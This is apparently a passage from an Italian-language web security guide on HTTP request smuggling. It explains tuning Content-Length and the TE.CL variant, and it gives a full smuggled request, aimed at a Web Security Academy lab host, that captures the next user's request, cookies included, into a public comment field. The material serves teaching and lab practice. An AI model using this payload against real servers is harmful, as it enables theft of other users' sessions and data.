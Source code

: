È importante allineare l'intestazione `Content-Length` della richiesta annidata con la lunghezza effettiva del contenuto. È consigliabile iniziare con un valore basso e incrementare gradualmente, poiché un valore troppo basso troncerebbe i dati riflessi, mentre un valore troppo alto potrebbe causare un errore nella richiesta.

Questa tecnica è applicabile anche nel contesto di una vulnerabilità TE.CL, ma la richiesta dovrebbe terminare con `search=\r\n0`. Indipendentemente dai caratteri di nuova riga, i valori verranno aggiunti al parametro di ricerca.

Questo metodo serve principalmente a comprendere le modifiche alla richiesta effettuate dal proxy front-end, eseguendo essenzialmente un'indagine autodiretta.

### Catturare le richieste di altri utenti <a href="#capturing-other-users-requests" id="capturing-other-users-requests"></a>

È possibile catturare le richieste dell'utente successivo aggiungendo una richiesta specifica come valore di un parametro durante un'operazione POST. Ecco come può essere realizzato:

Aggiungendo la seguente richiesta come valore di un parametro, puoi memorizzare la richiesta del cliente successivo:
```
POST / HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 319
Connection: keep-alive
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Length: 659
Content-Type: application/x-www-form-urlencoded
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi

csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=asdfghjklo&email=email%40email.com&comment=
```
In questo scenario, il **parametro commento** è destinato a memorizzare i contenuti all'interno della sezione commenti di un post su una pagina accessibile pubblicamente. Di conseguenza, i contenuti della richiesta successiva appariranno come un commento.

Tuttavia, questa tecnica ha delle limitazioni. In generale, cattura i dati solo fino al delimitatore del parametro utilizzato nella richiesta smuggled. Per le sottomissioni di moduli codificati in URL, questo delimitatore è il carattere `&`. Ciò significa che il contenuto catturato dalla richiesta dell'utente vittima si fermerà al primo `&`, che potrebbe anche far parte della stringa di query.

Inoltre, vale la pena notare che questo approccio è anche valido con una vulnerabilità TE.CL. In tali casi, la richiesta dovrebbe concludersi con `search=\r\n0`. Indipendentemente dai caratteri di nuova linea, i valori verranno aggiunti al parametro di ricerca.

### Utilizzare l'HTTP request smuggling per sfruttare il XSS riflesso
